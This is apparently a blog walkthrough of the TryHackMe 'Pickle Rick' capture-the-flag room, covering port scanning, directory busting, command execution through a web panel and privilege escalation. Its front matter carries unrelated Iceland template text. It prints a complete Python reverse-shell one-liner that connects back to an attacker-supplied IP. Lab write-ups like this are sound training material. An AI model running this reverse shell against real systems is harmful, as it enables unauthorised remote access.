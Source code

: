 ```yaml
---
title: TryHackMe - Pickle Rick CTF
excerpt: >-
  This "Easy" rated box on TryHackMe can be completed with only your web
  browser!
date: '2021-10-27'
thumb_img_path: images/7.jpg
thumb_img_alt: Icelandic horses
content_img_path: /images/Banner.png
content_img_alt: Icelandic horses
seo:
  title: Fragments of Iceland
  description: Iceland is a Nordic country between the North Atlantic and the Arctic Ocean.
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Fragments of Iceland
      keyName: property
    - name: 'og:description'
      value: >-
        Iceland is a Nordic country between the North Atlantic and the Arctic
        Ocean.
      keyName: property
    - name: 'og:image'
      value: images/7.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Fragments of Iceland
    - name: 'twitter:description'
      value: >-
        Iceland is a Nordic country between the North Atlantic and the Arctic
        Ocean.
    - name: 'twitter:image'
      value: images/7.jpg
      relativeUrl: true
layout: post
---
```

TryHackMe - Pickle Rick CTF: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerickTryHackMe)

This box is listed as Easy .  All three ingredients can be discovered easily from your browser and without using any tools, but for this walkthrough I will be using:

`NMAP DIRBUSTER NETCAT

I will try to provide alternative guidance where applicable.

# ENUMERATION

First, let's start by pinging the machine and making sure we're able to connect.

![](/images/ping.png)

Everything looks good, so let's try to see which ports we have available.  I'll be using NMAP to perform this scan:

sudo nmap -sN -Pn 10.10.19.153

\-sN -- TCP Null scan

\-Pn -- Treats all hosts as online / skip host discovery

![](/images/nmap.png)

We can see we have port 22 and port 80 open.  Let's curl the IP and see what we get back.

![](/images/a_curl_port\_80.png)

Nothing really stands out at first.  We can see we have a /assets/ directory we may be able to use later.  If we scroll down, however, we see a comment left by Rick, which gives us the Username.  We'll note this username, and be on the lookout for a login page.

Alternatively, we can navigate to \[TARGET_IP]:80, and inspect source there to get the same:

![](/images/a_inspect_source.png)

Before we jump to directory hunting, let's check for a robots.txt to get any more intel:

![](/images/a_curl_robots.png)

Curl returns a seemingly nonsense phrase that will be important later, and I have purposely blurred.  For now, we do not know its significance though.

Let's do some directory busting.  I'll be using DirBuster, and I'll be using a small wordlist that comes pre-installed in Parrot and Kali.  I'll input the target IP, as well as the file path to my list:

![](/images/dirbuster.png)

After letting the scan run for a few moments, we have some interesting results:

![](/images/a_dirbuster_return.png)

We can see both a /login.php and  a /portal.php which are interesting.  Let's navigate to the login page.

# FOOTHOLD

![](/images/login.png)

We know the Username from our notes of the HTML comment on the home page, but we don't know the password.  A quick trial of usual passwords doesn't work.  We can try a sniper attack in BurpSuite, but what about the text in /robots.txt?  Let's try that.

![](/images/command.png)

Awesome, that worked, and now we're in.  Let's check the page source for any hidden comments or bread crumbs:

![](/images/a_portal_source.png)

Nothing seems to stand out aside from the comment which appears to be Base64 encoded.  Let's make note of that and go back to /portal.php.  Let's try out a few commands we know, and see if that gets us anywhere.

![](/images/whoami.png)![](/images/ls.png)

After some trial and error, we can see that we're seemingly giving commands to a Linux machine.  We can see a 'clue.txt' and 'Sup3rS3cretPickl3Ingred.txt' in our current directory, so let's try to cat the ingredient.

![](/images/cat.png)

Ok.  That didn't work, but we have more options.  Let's wget the files and have them locally if we need them later.![](/images/wget.png)

From here, we can cat the files and see what they contain:

![](/images/a_first_ingred.png)

Awesome, we have the first ingredient as well as a hint for how to find the rest.

Alternatively, we would have been able to 'less' the .txt files and gotten their contents in the browser:

![](/images/a_less_first.png)![](/images/less_clue.png)

# REVERSE SHELL

At this point, we can continue to issue commands to the web browser panel.  However, for practice and ease of use, I chose to implement a reverse shell.  I started netcat on my machine, and listened on port 4444 (an arbitrary port).  I then issued the command

> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("\[YOUR IP]",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'

on the control panel, and was able to spawn the reverse shell:

![](/images/a_shell_open.png)

Now we can explore the machine and look for our next ingredient:

![](/images/a_shell_second.png)

# PRIVILEGE ESCALATION

Awesome.  That's the second ingredient, and we only have one left.  Unfortunately, the last one needs root access, so let's practice our privilege escalation.  I'll use another python script to sudo bash:

> python3 -c 'import pty; pty.spawn("/bin/bash")'

Now we can cd to /root, and get into the third ingredient:

![](/images/a_shell_last.png)

That's it! We got all three ingredients.  Enter them for your points, and I'll see you in the next room.
